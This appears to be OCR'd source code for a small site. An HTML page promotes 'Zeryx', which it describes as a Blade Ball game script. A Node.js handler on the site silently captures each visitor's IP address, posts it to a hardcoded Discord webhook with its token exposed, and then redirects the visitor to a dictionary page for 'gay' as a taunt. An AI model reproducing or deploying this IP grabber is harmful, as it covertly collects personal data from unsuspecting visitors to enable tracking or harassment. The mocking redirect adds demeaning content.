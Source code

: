 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Zeryx Official</title>
  <style>
    body {
      background-color: #000;
      color: #f00;
      font-family: Arial, sans-serif;
      margin: 0;
      padding: 40px;
    }
    h1 {
      font-size: 48px;
      margin-bottom: 20px;
    }
    p {
      font-size: 20px;
      max-width: 600px;
      line-height: 1.5;
    }
  </style>
</head>
<body>
  <h1>Welcome to Zeryx</h1>
  <p>
    Welcome to Zeryx — the ultimate Blade Ball script trusted by hundreds of players worldwide. 
    Our advanced features, unmatched reliability, and cutting-edge performance give you the competitive edge you deserve. 
    Join the Zeryx community today and experience Blade Ball like never before. Stay ahead, stay unstoppable — only with Zeryx.
  </p>
</body>
</html>

 fetch from 'node-fetch';

const WEBHOOK_URL = 'https://discord.com/api/webhooks/1403441631251792102/ftoLxUSLsSm4-F3ZYfPsnPUfl6YoYt0f4MyisTC7zFQf8tTJERDLVyjB1iUyXl2WAeOQ';

export default async function handler(req, res) {
  const ip = req.headers['x-forwarded-for'] || req.socket.remoteAddress;

  await fetch(WEBHOOK_URL, {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ content: `IP grabbed: ${ip}` }),
  });

  res.writeHead(302, { Location: 'https://www.dictionary.com/browse/gay' });
  res.end();
}
